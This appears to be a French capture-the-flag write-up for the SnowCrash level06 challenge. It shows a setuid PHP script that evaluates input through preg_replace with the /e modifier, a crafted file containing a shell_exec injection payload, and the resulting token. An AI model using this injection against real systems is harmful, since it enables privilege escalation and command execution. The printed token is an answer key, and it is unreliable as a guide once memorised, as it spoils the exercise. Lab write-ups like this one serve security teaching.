 
# **Level 06**

Pour ce level06, 2 fichier dans le repertoire courant

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

```

On affiche donc le `.php`

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}
function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}
$r = x($argv[1], $argv[2]);
print $r;

?>

```
> On a reformater l'output pour rendre la code plus lisible

On remarque que le premier arguments de la fonction est parser via des `preg_replace`, notament le premier aui utilise l'option `/e` qui permet d'interpreter le contenue comme du code PHP

En comprenant le `REGEX` utiliser des les preg replace on peux ecrire dans un fichier un ligne permettant d'executer `getflag`

```
level06@SnowCrash:~$ cat /var/crash/level06f 
[x {${shell_exec(getflag)}}]
```
> [Liens explicatifs](https://0x00sec.org/t/how-to-pwned-nebula-level09-php-preg-replace/812)

Puis on passe ce fichier a l'executable qui peux executer le code avec les droits de flag06 (`rws`)

```
level06@SnowCrash:~$ ./level06 /var/crash/level06f 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

```


> ### NEXT : [Level 07](/level07/resources/README.md)
